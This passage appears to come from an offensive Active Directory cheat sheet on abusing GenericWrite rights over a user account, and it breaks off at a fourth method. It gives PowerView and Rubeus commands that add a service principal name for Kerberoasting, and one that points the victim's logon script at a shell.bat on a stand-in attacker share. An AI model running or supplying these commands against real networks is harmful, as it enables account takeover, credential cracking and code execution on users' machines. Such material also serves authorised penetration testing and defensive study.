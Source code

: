 ##### **2. GenericWrite on User – Modify scriptPath or SPN (Kerberoasting)**

```powershell
# WINDOWS COMMAND
# Method 1: Add SPN to perform Kerberoasting (PowerView)
Set-DomainObject -Identity targetuser -Set @{servicePrincipalName='http/kerberoast'} -Credential $myCred

# Method 2: Set scriptPath for logon script abuse (PowerView)
Set-DomainObject -Identity targetuser -Set @{scriptPath='\\attacker\share\shell.bat'} -Credential $myCred

# Method 3: Add SPN manually (Rubeus)
Rubeus.exe addspn /user:targetuser /spn:http/kerberoast /creduser:controlleduser /credpassword:MyP@ssw0rd

# Method 4: Modify SPN via PowerShell
